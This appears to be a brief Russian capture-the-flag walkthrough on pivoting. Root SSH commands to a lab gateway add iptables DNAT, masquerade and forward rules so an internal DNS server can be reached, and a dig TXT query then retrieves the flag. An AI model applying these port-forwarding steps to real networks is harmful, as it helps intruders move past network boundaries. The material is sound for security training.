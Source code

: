 Настраиваем правила iptables
```
ssh root@10.10.0.33 -p2222 -- --t nat -A PREROUTING -p tcp --dport 10000 -j DNAT --to-destination 10.152.152.11:53

```
где, перенаправляется весь трафик, поступающий на внешний IP и порт 10000 на адрес 10.152.152.11:53

Включаем маскарад для правила 
```
iptables -t nat -A POSTROUTING -j MASQUERADE
```

```
ssh root@10.10.0.33 -p2222 -- -A FORWARD -p tcp -d 10.152.152.11 --dport 53 -j  ACCEPT

```
где, разрешаем все TCP соединения на порт 53 хоста 10.152.152.11, используя хост 10.10.0.33 как промежуточный

Отправляем tcp запрос и забираем флаг
```
dig -p 10000 +tcp  @10.10.0.33 flag.pivoting.local TXT
```

